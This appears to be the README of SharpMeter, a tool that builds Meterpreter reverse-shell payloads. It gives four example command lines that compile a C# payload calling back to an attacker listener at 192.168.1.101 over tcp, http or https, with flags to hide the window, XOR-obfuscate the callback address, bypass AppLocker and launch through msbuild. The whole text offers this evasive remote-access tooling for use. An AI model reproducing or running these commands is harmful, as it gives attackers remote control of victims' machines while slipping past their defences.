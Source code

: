 # SharpMeter
A Simple Way To Make Meterpreter Reverse Payloads

# Example tcp
python SharpMeter.py 192.168.1.101 4444 compileme.cs tcp

# Example Close Window / XOR IP
python SharpMeter.py 192.168.1.101 443 compileme.cs https -w -x

# Example AppLocker
python SharpMeter.py 192.168.1.101 443 compileme.cs https -w -x -a

# Example msbuild!
python SharpMeter.py 192.168.1.101 80 compileme.cs http -w -x -m
